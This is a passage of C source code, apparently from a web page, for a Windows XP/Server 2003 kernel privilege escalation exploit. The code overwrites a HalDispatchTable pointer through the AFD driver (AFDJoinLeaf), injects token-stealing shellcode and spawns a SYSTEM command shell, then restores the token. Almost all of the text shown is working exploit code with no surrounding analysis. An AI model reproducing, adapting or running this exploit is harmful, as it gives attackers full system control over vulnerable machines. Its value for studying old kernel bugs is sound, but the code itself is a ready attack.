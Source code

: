 		memcpy(shellcode+PADDING_SIZE+RESTOREPTRS_SIZE,tokenstealing_xp,TOKENSTEALING_SIZE);
	}else{// Win2k3 SP2
		memcpy(shellcode+PADDING_SIZE+RESTOREPTRS_SIZE,tokenstealing_2k3,TOKENSTEALING_SIZE);
	}

	WriteProcessMemory(GetCurrentProcess(),(char*)shellcode_address_dep,shellcode,SHELLCODE_SIZE,&written);
	WriteProcessMemory(GetCurrentProcess(),(char*)shellcode_address_nodep,shellcode,SHELLCODE_SIZE,&written);

	ZwDeviceIoControlFile((HANDLE)client,NULL,NULL,NULL,&IoStatusBlock,IOCTL,(CHAR*)0x1004,0x108,(CHAR*)(HalDispatchTable+5),0x0);

	printf("[*] Triggering AFDJoinLeaf pointer overwrite...\n");
	NtQueryIntervalProfile((KPROFILE_SOURCE)0x1337,&out);
	
	printf("[*] Spawning a SYSTEM shell\n");
	system("cmd.exe /T:C0 /K cd c:\\windows\\system32");

	printf("[*] Restoring token...\n");

	memset(shellcode,0,SHELLCODE_SIZE);
	memcpy(shellcode,padding,PADDING_SIZE);
	memcpy(shellcode+PADDING_SIZE,restore_ptrs,RESTOREPTRS_SIZE);
	if(!strcmp(os,"XP")){//XP
		memcpy(shellcode+PADDING_SIZE+RESTOREPTRS_SIZE,restore_token_xp,RESTORETOKEN_SIZE);
	}else{// Win2k3 SP2
		memcpy(shellcode+PADDING_SIZE+RESTOREPTRS_SIZE,restore_token_2k3,RESTORETOKEN_SIZE);
	}

	WriteProcessMemory(GetCurrentProcess(),(char*)shellcode_address_dep,shellcode,SHELLCODE_SIZE,&written);
	WriteProcessMemory(GetCurrentProcess(),(char*)shellcode_address_nodep,shellcode,SHELLCODE_SIZE,&written);
	
	ZwDeviceIoControlFile((HANDLE)client,NULL,NULL,NULL,&IoStatusBlock,IOCTL,(CHAR*)0x1004,0x108,(CHAR*)(HalDispatchTable+5),0x0);

	NtQueryIntervalProfile((KPROFILE_SOURCE)0x1337,&out);

	printf("[*] Restore done!\n");
	system("pause");
	return 0;
}
{% endhighlight %}
